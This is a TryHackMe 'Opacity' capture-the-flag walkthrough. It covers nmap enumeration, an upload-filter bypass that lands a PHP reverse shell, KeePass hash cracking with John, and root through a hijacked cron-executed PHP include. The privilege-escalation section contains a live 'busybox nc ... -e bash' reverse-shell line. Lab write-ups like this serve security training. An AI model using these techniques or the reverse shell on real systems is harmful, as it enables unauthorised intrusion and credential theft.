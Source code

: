 # THM - Opacity

#### Ip: 10.10.182.105
#### Name: Opacity
#### Difficulty: Easy

----------------------------------------------------------------------

![opacity.png](../assets/opacity_assets/opacity.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/Opacity]
└─$ sudo nmap -p-  --min-rate 10000 10.10.182.105
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-31 09:10 CDT
Nmap scan report for 10.10.182.105
Host is up (0.22s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 8.47 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/THM/Opacity]
└─$ sudo nmap -sC -sV 10.10.182.105 -p 22,80,139,445
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-31 09:11 CDT
Nmap scan report for 10.10.182.105
Host is up (0.26s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0fee2910d98e8c53e64de3670c6ebee3 (RSA)
|   256 9542cdfc712799392d0049ad1be4cf0e (ECDSA)
|_  256 edfe9c94ca9c086ff25ca6cf4d3c8e5b (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title: Login
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2023-08-31T14:11:37
|_  start_date: N/A
|_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
|_clock-skew: -1s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.95 seconds
```

Taking a look at the site we find a basic login page:

![site.png](../assets/opacity_assets/site.png)

Lets try some directory fuzzing with Feroxbuster:

![ferox.png](../assets/opacity_assets/ferox.png)

The `/cloud` directory seems interesting. 

Navigating to the directory we find an image upload page:

![cloud.png](../assets/opacity_assets/cloud.png)

### Exploitation

Lets grab a copy of PentestMonkey's php-reverse-shell.php and update the IP and port fields:

![php.png](../assets/opacity_assets/php.png)

This took some trial and error, but lets go ahead and save the file as shell.php, but when we upload it lets bypass the filtering by using http://10.2.6.181/shell.php#.png

![url.png](../assets/opacity_assets/url.png)

Looking back at our listener and web server we can see that worked!

![shell.png](../assets/opacity_assets/shell.png)

Trying to grab the local.txt we get a permission denied. Looks like we'll have to keep enumerating:

```text
www-data@opacity:/home/sysadmin$ cat local.txt
cat: local.txt: Permission denied
```

Browsing around a bit more we find a KeePass file in `/opt`. Lets start a Python HTTP server on the target and grab the file on our attacking machine using wget:

![wget.png](../assets/opacity_assets/wget.png)

Once back on our machine we can try to access the contents, but it looks like it's password protected:

```text
┌──(ryan㉿kali)-[~/THM/Opacity]
└─$ kpcli --kdb=dataset.kdbx            
Provide the master password:
```

Lets use John to crack this:

First we'll need to get it in a format John can work with:

```text
┌──(ryan㉿kali)-[~/THM/Opacity]
└─$ keepass2john dataset.kdbx > hash.txt
```

Then we can use John to crack the password:

![john.png](../assets/opacity_assets/john.png)

Cool, now we can access the KeePass file using kpcli:

![kpcli.png](../assets/opacity_assets/kpcli.png)

Cool, looks like we've now get the sysadmin user's password!

back in our shell we can issue `su sysadmin` and then grab the user.txt flag:

![user_flag.png](../assets/opacity_assets/user_flag.png)

### Privilege Escalation

Taking a look in the `/scripts` folder we see an interesting script that is owned by root:

```text
sysadmin@opacity:~/scripts$ cat script.php
<?php

//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;

//Files scheduled removal
$dir = "/var/www/html/cloud/images";
if(file_exists($dir)){
    $di = new RecursiveDirectoryIterator($dir, FilesystemIterator::SKIP_DOTS);
    $ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ( $ri as $file ) {
        $file->isDir() ?  rmdir($file) : unlink($file);
    }
}
?>
```

We see that it is calling the backup.inc.php file in `/lib` and that this must be being executed by a cronjob. We can't edit the script here so we'll need to delete it and create a new backup.inc.php in the `sysadmin` directory, insert a reverse shell, and then copy the file back to `/lib` to be executed by the script. 

```text
sysadmin@opacity:~$ rm scripts/lib/backup.inc.php
sysadmin@opacity:~$ vi backup.inc.php


<?php


ini_set('max_execution_time', 600);
ini_set('memory_limit', '1024M');


function zipData($source, $destination) {
        system('/usr/bin/busybox nc 10.2.6.181 8888 -e bash');
}
?>

<snip>

sysadmin@opacity:~$ chmod +x backup.inc.php
sysadmin@opacity:~$ cp backup.inc.php /home/sysadmin/scripts/lib/
```
And then after waiting just a minute or two for the script to execute, we caught a shell back as root and were able to grab the final flag:

![root_flag.png](../assets/opacity_assets/root_flag.png)

Thanks for following along!

-Ryan
